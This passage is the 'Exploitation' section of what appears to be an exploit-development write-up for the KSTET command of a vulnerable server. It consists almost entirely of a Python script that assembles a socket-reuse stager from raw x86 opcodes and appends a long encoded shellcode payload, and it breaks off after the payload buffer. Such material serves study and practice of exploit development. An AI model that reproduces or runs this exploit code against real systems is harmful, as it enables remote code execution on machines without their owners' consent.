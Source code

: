 ## Exploitation

The final exploit for ```KSTET``` command is,

```c
import socket, sys
from time import sleep

file_descriptor=b""
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"

buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
```